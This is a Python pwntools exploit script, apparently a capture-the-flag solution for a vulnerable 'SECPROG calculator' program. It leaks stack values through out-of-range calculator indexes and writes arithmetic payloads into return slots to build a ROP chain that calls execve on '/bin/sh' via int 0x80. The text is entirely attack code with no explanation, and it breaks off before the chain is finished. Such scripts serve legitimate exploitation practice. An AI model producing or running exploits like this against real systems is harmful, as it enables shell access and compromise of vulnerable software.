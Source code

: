 ```

pop_eax = 0x0805c34b
pop_edx_ecx_ebx = 0x080701d0
int_0x80 = 0x08049a21


p.recvuntil(b"=== Welcome to SECPROG calculator ===")
p.recvline()
print("==============================================")

def form(addr, value, value2):
    print("[+]Value of this addr: ", hex(value2))
    print("[+]Change to value: ", hex(value))
    print("[+]Calculate: ", value-value2)
    if (value > value2):
        payload = addr.decode() + "+" + str(value - value2)
    else:
        payload = addr.decode() + str(value - value2)
    # Encode payload to bytes using UTF-8 encoding
    payload = payload.encode('utf-8')
    print(payload)
    p.sendline(payload)
    print("Done")
    print("==============================================")


payload = b"+360"
p.sendline(payload)
leak_binsh = int(p.recvline().strip())
if (leak_binsh < 0):
    leak_binsh = 0xffffffff + leak_binsh + 1
# Convert string to integer
print("[+]/bin/sh addr: ", hex(leak_binsh))
print("==============================================")

payload = "+361"
p.sendline(payload)
leak = int(p.recvline().strip())
if (leak < 0):
    leak = 0xffffffff + leak + 1
# Convert string to integer
print("[+]leak addr 361: ", hex(leak))
leak_361 = leak
print("==============================================")




form(b"+361", pop_eax, leak_361)
#form(b"+362", 0xb, leak_362)
payload = b"+362-77490+11"
p.sendline(payload)
#form(b"+363", pop_edx_ecx_ebx, leak_363)
payload = b"+363-11+134676944"
p.sendline(payload)
#form(b"+364", 0x0, leak_364)
payload = b"+364-134676944"
p.sendline(payload)
#form(b"+365", 0x0, leak_365)
payload = b"+365-134676944"
p.sendline(payload)
#form(b"+366", leak_binsh, leak_366)
# Convert integer to bytes
```